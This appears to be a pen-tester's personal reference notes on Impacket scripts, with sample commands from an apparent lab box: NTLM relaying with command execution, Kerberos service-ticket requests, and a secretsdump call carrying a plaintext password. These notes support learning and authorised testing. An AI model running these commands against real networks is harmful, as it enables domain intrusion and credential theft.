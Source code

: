 
# Python Impacket
Init.

Python [impacket](https://github.com/fortra/impacket/tree/master) is an open-source collection of scripts designed to interact with common [networking](/networking/OSI/network-layer.md) protocols. Many of the scripts can be used in pen-testing, especially against Windows targets.
## Common Scripts:
(I'm keeping a list here for my own use/ reference)
### [`smbrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/smbrelayx.py)
### [`ntlmrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
`ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'`
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
- `-i`: interactive (will give you a shell)
### [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
`impacket-GetUserSPNs -usersfile [users.lst](https://users.lst) -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass`
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
```
┌──(hakcypuppy㉿kali)-[~]
└─$ secretsdump.py 'egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
````
- The domain, user, password, and IP should be surround in quotes